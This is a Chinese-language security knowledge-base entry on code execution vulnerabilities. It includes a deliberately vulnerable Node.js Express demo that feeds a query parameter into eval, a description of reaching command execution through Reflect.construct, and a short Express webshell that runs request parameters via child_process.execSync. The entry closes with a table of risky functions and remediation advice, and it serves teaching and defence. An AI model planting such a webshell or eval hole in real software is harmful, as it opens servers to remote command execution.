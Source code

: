 ## 简介

代码执行漏洞是指攻击者通过在应用程序中注入恶意代码并成功执行，从而获取系统权限或者窃取敏感信息的一种攻击方式。这种漏洞通常发生在 Web 应用程序中，攻击者可以通过输入恶意代码或者通过上传恶意文件等方式来实现代码执行。攻击者可以利用这种漏洞来执行任意代码，包括命令执行、文件读写、数据库操作等，从而控制整个系统。

## 利用方式

1. 输入恶意代码：攻击者通过输入恶意代码来执行攻击。例如，在一个搜索框中输入一段代码，如果应用程序没有对输入数据进行过滤和验证，就会直接执行这段代码。

2. 上传恶意文件：攻击者通过上传恶意文件来执行攻击。例如，上传一个包含恶意代码的图片文件，如果应用程序没有对上传文件进行检查和过滤，就会将该文件保存到服务器上并执行其中的恶意代码。

执行相关编程语言的任意代码，所以危害取决于可以执行代码的程度。常见的比较严重的攻击有如 **执行系统命令**、**读写文件**、**拒绝服务** 等

## 漏洞复现

在[代码执行demo](/知识库/01.WEB安全/99.其他/04.JavaScript 原型链污染#Demo)中，该部分由node.js编写，其中更是使用eval进行解析字符串以达到代码执行的目的

```javascript
const express = require('express')
const app = new express()

const obj = {
    getMsg: 'hello world',
    getList: getReadMsg()
}

function getReadMsg(){
    return 'test'
}

Object.freeze(obj)

app.get('/', (req, res) => {
    const resp = eval('obj.' + req.query.test)
    res.send(resp)
})

app.listen( 8081,()=>{
    console.log('running on 8081 port!')
})
```



Reflect是JavaScript的一个内置对象，Reflect.construct() 方法的行为有点像 new 操作符 构造函数 ， 相当于运行 new target(...args)
语法如下：

```javascript
Reflect.construct(target, argumentsList[, newTarget])
```

target为Function，argunmentList则为需要传入的方法，再此处就将结果返回回来，在这里就可以看见我们执行了whoami并回显回来了

![image.png](README.assets/2023_05_19_10_43_56_rit8HjEY.png)

在未使用return 返回结果的时候，使用该方式发现又可以代码执行，那么再启动一个端口，用于执行命令，就达到了webshell的功能
这里我图方便没有使用nodejs的http模块启动，而是使用express模块执行（需要下载express库)
代码

```javascript
const express_1 = require('express')
const app_1 = new express_1()
app_1.get('/', (req_1, res_1)=>{
    res_1.header('Content-Type','text/html')
    res_1.send(require('child_process').execSync(req_1.query.cmd))
})
app_1.listen('8888')
```



![image.png](README.assets/2023_05_19_10_43_57_PTZrs1dy.png)

![image-20230625173600772](README.assets/image-20230625173600772-7685762.png)

![image.png](README.assets/2023_05_19_10_43_57_6TvOdEgh.png)

## 相关函数

列举常见编程语言中可能造成代码执行风险的函数，不保证全，仅当参考。

| 编程语言   | 风险函数                                                     |
| :--------- | :----------------------------------------------------------- |
| Python     | `eval()`, `exec()`, `compile()`                              |
| PHP        | `eval()`, `create_function()`, `assert()`                    |
| Java       | `javax.script.ScriptEngine.eval()`,`OGNL表达式`,`SPEL表达式` |
| JavaScript | `eval()`                                                     |

## 修复建议

1. 输入验证和过滤
   1. 对于用户输入的数据，始终进行有效的验证和过滤，确保只接受预期的输入。
   2. 使用白名单验证，只允许特定的字符或格式通过验证，拒绝一切非法或不受信任的输入。
2. 避免动态执行代码
   1. 避免直接使用函数（如 `eval()`、`exec()`、`System.exec()` 等）执行动态生成的代码。
   2. 尽量使用更安全的替代方案，如解析器、解释器或特定的API。

